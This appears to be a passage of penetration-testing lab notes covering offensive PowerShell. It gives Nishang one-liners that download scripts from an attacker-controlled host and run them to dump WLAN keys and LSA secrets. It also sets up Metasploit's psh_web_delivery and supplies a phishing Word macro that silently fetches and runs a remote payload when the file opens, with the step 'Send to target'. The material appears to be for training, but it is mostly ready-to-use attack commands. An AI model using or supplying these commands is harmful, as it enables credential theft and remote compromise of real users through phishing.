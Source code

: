 ********************************** Nishang Payload which dumps keys for WLAN profiles. **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Get-WLAN-Keys.ps1','%TEMP%\Get-WLAN-Keys.ps1')
powershell.exe -ExecutionPolicy Bypass -command %TEMP%\Get-WLAN-Keys.ps1





********************************** Nishang payload which extracts LSA Secrets from local computer. **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Get-LSASecret.ps1','%TEMP%\Get-LSASecret.ps1')
powershell.exe -ExecutionPolicy Bypass -command %TEMP%\Get-LSASecret.ps1 -filename .\servers.txt











##########################
#Phishing with PowerShell#
##########################

Reference:
http://securitypadawan.blogspot.com/2014/01/phishing-with-powershell.html
http://www.rapid7.com/db/modules/exploit/windows/misc/psh_web_delivery

I have seen quite a few tweets/comments/etc about using Powershell's functionality within the context of a Microsoft Office document/VBA (https://github.com/enigma0x3/Powershell-Payload-Excel-Delivery/blob/master/MacroCode). I am going to share a way I have been leveraging Powershell for payload delivery during phishing engagements for a while now to achieve the same end result in a much simpler fashion. The two stages are as follows:

Attacker Machine:
msf > use exploit/windows/misc/psh_web_delivery
msf exploit(psh_web_delivery) > set SRVHOST Strategic-Sec-Ubuntu-VM-IP
msf exploit(psh_web_delivery) > set URIPATH boom
msf exploit(psh_web_delivery) > exploit

VBA Macro:
Sub AutoOpen()

    Call Shell("powershell.exe -w hidden -nop -ep bypass -c ""IEX ((new-object net.webclient).downloadstring('http://Strategic-Sec-Ubuntu-VM-IP:8080/boom'))""", 1)
End Sub

Save the document as a macro-enabled file.
Send to target, and upon opening....






Meanwhile back at the bat cave...


